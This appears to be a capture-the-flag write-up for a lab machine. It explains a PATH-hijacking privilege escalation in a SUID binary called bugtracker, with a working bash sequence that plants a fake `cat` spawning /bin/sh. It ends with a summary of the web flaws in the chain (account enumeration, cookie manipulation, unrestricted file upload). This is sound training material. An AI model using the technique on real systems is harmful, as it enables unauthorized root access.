 **Question:** What is the name of the executable being called in an insecure manner?

**Importance:**
- **Learning Objective:** PATH manipulation vulnerabilities in SUID binaries
- **CTF Progression:** Final step in privilege escalation chain
- **Real-world Relevance:** Insecure command execution is a common vulnerability in custom applications

**Methodology:**
Analyze the bugtracker binary's behavior to identify how it executes external commands and potential exploitation vectors.

**Step-by-Step:**
1. **Execute Binary:** Run `/usr/bin/bugtracker` to observe behavior
2. **Analyze Output:** Note that it uses `cat` command to read files
3. **Identify Vulnerability:** Binary calls `cat` without absolute path
4. **PATH Exploitation:** Create malicious `cat` in `/tmp` and modify PATH

**Exploitation Process:**
```bash
# Create malicious cat
echo "/bin/sh" > /tmp/cat
chmod +x /tmp/cat

# Modify PATH to prioritize /tmp
export PATH=/tmp:$PATH

# Execute bugtracker to trigger privilege escalation
/usr/bin/bugtracker
```

**Answer:** **cat**

---

## Exploitation Details

### Vulnerability Analysis

**1. Information Disclosure (CWE-200)**
- **Root Cause:** URL parameter `id` allows enumeration of user accounts without authorization
- **Risk Level:** Medium - Leads to credential discovery and privilege escalation
- **OWASP Classification:** A01:2021 – Broken Access Control

**2. Broken Access Control (CWE-285)**
- **Root Cause:** Client-side session management allows privilege escalation through cookie manipulation
- **Risk Level:** High - Direct admin access bypass
- **OWASP Classification:** A01:2021 – Broken Access Control

**3. Unrestricted File Upload (CWE-434)**
- **Root Cause:** No file type validation or content filtering on upload functionality
- **Risk Level:** Critical - Leads to Remote Code Execution
- **OWASP Classification:** A03:2021 – Injection
